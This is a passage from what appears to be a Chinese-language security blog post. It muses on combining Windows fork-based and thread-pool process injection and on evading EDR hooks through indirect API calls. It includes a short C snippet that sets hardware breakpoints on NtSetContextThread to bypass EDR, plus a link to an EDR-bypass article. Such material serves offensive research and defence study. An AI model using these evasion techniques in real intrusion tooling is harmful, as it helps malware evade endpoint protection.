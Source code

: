 ## 思考

上述两种手法一种是通过 windows 进程的 fork 机制一种是通过进程的进程池的结构特性来完成的注入；那是否能将这两种手法相互结合；也就是将进程池的目标换成 windows 进程 fork 的对象而且还能通过父进程的特殊性对注入的子进程进行有效的规避。  
但是上述代码中有一些关键函数的直接调用在有的 edr 中可能会被挂钩检测到，那么是否可以通过间接调用的方式将其代码进行组合起来比如通过如下的代码进行一些代码的替换从而规避检测；

```bash
DWORD SetThreadContextThread(LPVOID param) {
    NtSetContextThread(NULL, NULL);
    return 0;
}

SetUnhandledExceptionFilter(BreakpointHandler);
HANDLE new_thread = CreateThread(NULL, NULL, SetThreadContextThread, NULL, CREATE_SUSPENDED, NULL);
SetSyscallBreakpoints((LPVOID)NtSetContextThread, new_thread);
ResumeThread(new_thread);
```

甚至还可以将上述部分代码中的 api 更改为间接调用的方式去进行修补还可以修改寄存器的值等比如设置硬件断点进行 bypassEDR  
可参考[https://malwaretech.com/2023/12/silly-edr-bypasses-and-where-to-find-them.html](https://malwaretech.com/2023/12/silly-edr-bypasses-and-where-to-find-them.html)  
通过不同的方式进行结合说不定会有其他更多的玩法。

[![](assets/1707954192-fac840e6c88ed43aa6d7dd6c4efc1974.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204222048-97aea46c-c368-1.png)
